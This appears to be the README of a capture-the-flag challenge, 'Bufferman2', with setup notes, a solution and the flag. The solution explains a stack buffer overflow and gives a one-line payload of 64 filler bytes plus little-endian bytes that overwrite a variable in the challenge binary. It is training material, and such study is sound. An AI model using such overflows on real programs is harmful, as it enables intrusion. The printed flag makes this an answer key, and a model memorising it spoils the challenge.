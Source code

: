 # Bufferman2

## Question Text
THERES ANOTHER ROOM?!!?

Creator - Nicolas Teo 

## Setup Guide 
Host bufferman2 on a port and have bufferman2 and flag.txt in the same folder. 

## Distribution 
Distribute bufferman2.c

## Solution
Simple buffer overflow exploit. 64 Characters are required to fill the buffer variable. The other characters would overflow into the changethis variable. Characters have to be written backwards because of Little Endian.
echo `python3 -c 'print("A"*64 +"\x54\x52\x53\x51")'` | ./bufferman2
## Flag 
HNF{1s_b1nAry3xp10itAt1on_f0n?!}
